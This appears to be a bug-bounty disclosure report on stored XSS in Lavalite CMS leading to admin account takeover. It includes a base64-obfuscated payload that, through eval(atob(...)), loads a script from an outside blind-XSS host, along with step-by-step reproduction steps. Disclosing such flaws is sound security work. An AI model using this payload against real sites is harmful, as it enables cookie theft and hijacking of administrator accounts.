 # Description
Admin cookies and other details leading to an account take over to a higher level privilege from a client account of lavalite CMS and other multiple XSS in different pages due to acceptance of unsanitised data .check the permalinks to know more on the pages causing XSS.
# Payload USED
```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYmVlZmVlLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
```
# POC For Account TakeOver
* login to client account and admin account from entirely different browsers or through a private mode.
* In the client account click on settings and update the address column with the blind payload and save the updates made.
* from the admin account move to the end point http://localhost/admin/user/client .
* Booyah!!! XSS triggered.
* other POC's are available at the corresponding PR pages
# PermaLinks
* [POC](https://drive.google.com/drive/folders/1QfRhBX54orE65lq6rM33Fchft_gsaMHI?usp=sharing)
* Github PR [ISSUE @ team page](https://github.com/418sec/huntr/pull/691)
* Github PR [issue @ contact creation and management page](https://github.com/418sec/huntr/pull/692)
* Github PR [issue @ roles page](https://github.com/418sec/huntr/pull/694)
* Github PR [issue @ permissions management page](https://github.com/418sec/huntr/pull/695)
* Github PR [issue @ manage blocks page](https://github.com/418sec/huntr/pull/696)
* Github PR [issue @ menu page](https://github.com/418sec/huntr/pull/697)
* Github PR [issue @ index management page](https://github.com/418sec/huntr/pull/705)
* Github PR [issue @ registration page](https://github.com/418sec/huntr/pull/693)
